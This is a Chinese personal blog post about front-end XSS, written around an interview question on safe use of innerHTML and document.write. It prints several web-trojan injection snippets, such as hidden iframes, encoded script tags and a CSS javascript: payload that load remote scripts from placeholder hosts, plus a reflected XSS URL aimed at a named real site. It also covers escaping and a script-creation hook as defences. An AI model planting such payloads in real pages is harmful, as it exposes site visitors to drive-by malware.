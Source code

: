 title: front-end-security-xss
date: 2015-09-02 21:25:28
categories: blog
tags: [front-end,xss,hook,前端安全]
---
## 概述
没想到这样一个问题，还把自己搞得有点昏了。不过在找寻答案的过程中，我知道自己是快乐的！虽然没有自己解答出这个问题，但是收获颇多。特别是看了人家一步一步思考问题的方式，感悟是大大的。

## 问题
xss作为web前端常用的注入漏洞，在现在的互联网业务中其危险性不亚于其他攻击方式，请编写过滤函数
1.通过异步请求拿到的json数据后，如何安全的使用innerHtml显示在页面上
2.浏览器地址栏直接获取的参数，如何安全地进行document.write
3.后台直接输出完整的html页面，如何保证页面渲染后，用户内容的< script >不被执行.

<!-- more -->
## 分析
这里提出的就是xxs方式，那么这3个小题中的innerHtml,document.write,script肯定就是“坑”了。

## 前端常见xss

1.iframe: 

    document.write("<iframe width='0' height='0' src='地址'></iframe>"); 	//保存为xxx.js

则JS代码为:
	
	<script  src='xxx.js'></script> 
    

2.js变形加密

    
    <script language="JScript.Encode" src=http://www.xxx.com/muma.txt></script> //muma.txt 可改成任意后缀

3.flash

    
    http://网页木马地址 插入木马地址 width=10 height=10", "GET" 宽度和高度，方式后面的照添，更改木马地址就可以了。


4.隐蔽方式：

	    
    top.document.body.innerHTML=top.document.body.innerHTML+'\r\n<iframe src="http://www.xxx.com/muma.htm/"></iframe>'[/url]

5.css中xss：

	
    body {background-image:url('javascript:document.write("<script src=http://www.XXX.net/muma.js></script>")')}

6.图片伪装：
	
	
    <html> 
        <iframe src="网马地址" height=0 width=0></iframe> 
        <img src="图片地址"></center> 
    </html>

7.伪装调用：


    <frameset rows="444,0" cols="*"> 
    <frame src="打开网页" framborder="no" scrolling="auto" noresize marginwidth="0" margingheight="0"> 
    <frame src="网马地址" frameborder="no" scrolling="no" noresize marginwidth="0" margingheight="0">

## 原理

xss(cross site script)跨站脚本攻击
通过属性"src"加载来执行代码在获取网站或者网站服务器的部分或者全部权限后，在网页文件中插入一段恶意代码，
来实现攻击。

## xss类型
这个是在阿里面试的时候问道这个问题的，但是之前并没有很详细地区分xss的类型。只知道某种方式。

1.DOM—based XSS

该漏洞是基于文档对象模型Document Objeet Model,DOM)触发的。
    
	<div id="print"></div>

	//javascript
	var text = document.getElementById("print");
	print.innerHTML = text.value;

解决方式：

* 编码方式

        //将要转换的字符串设置为这个元素的innerText(ie支持)或者textContent(火狐，google支持)
        (temp.textContent != undefined ) ? (temp.textContent = html) : (temp.innerText = html);

        //返回这个元素的innerHTML，即得到经过HTML编码转换的字符串了
        var output = temp.innerHTML;


* 解码方式

		//将要转换的字符串设置为这个元素的innerHTML(ie，火狐，google都支持)
        temp.innerHTML = text;

        //返回这个元素的innerText(ie支持)或者textContent(火狐，google支持)，即得到经过HTML解码的字符串了。
        var output = temp.innerText || temp.textContent;


2.存储型xss

即通常我们在录入数据时通过闭合标签的方式把数据存储到数据库中，再次显示的时候触发。

解决方式：转义标签

	如：
		<  转义为  &lt； 
		>  转义为  &gt； 


3.反射型xss

仍然来自于直接的用户输入，是在通过url控制了页面的输出（处理：转义字符）根据浏览器去bypass各种过滤，易用性稍微差一些。但最后在页面中显示出来，并需要用户自己去点击链接才能触发XSS的是反射型XSS。

	如：

		http://www.jpl.nasa.gov/about_JPL /maps.cfm?departure=lax%22 %3Cimg%20src=k.png%20onerror=alert(%22XSSed%20by%20sH%22)%20/%3E

##MutationEvent何许
HTML5中添加，提供主动防御

文章参考：[http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-2/](http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-2/)


## javascript hook
简单钩子实现	

	//暂存变量
	<script>
		var zc = Document.prototype.createElement;

	    Document.prototype.createElement = function() {

	        // 调用原生函数
	        var element = zc.apply(this, arguments);

	        // 为脚本元素安装属性钩子
	        if (element.tagName == 'SCRIPT') {
	            element.__defineSetter__('src', function(url) {
	                console.log('设置路径:', url);
	            });
	        }

	        // 返回元素实例
	        return element;
	    };
	</script>

测试钩子

	<button id="btn">创建脚本</button>
	<script>
	    btn.onclick = function() {
	        var el = document.createElement('script');
	        el.src = 'http://www.etherdream.com/xss/out.js?dynamic';
	        document.body.appendChild(el);
	    };
	</script>

算了，装不下去了。自己也B不清楚，所以下面是广告时间。请使劲戳下面链接。

经典文章：[http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-3/](http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-3/)
	
学习地址：
http://bbs.ikaka.com/showtopic-8625758.aspx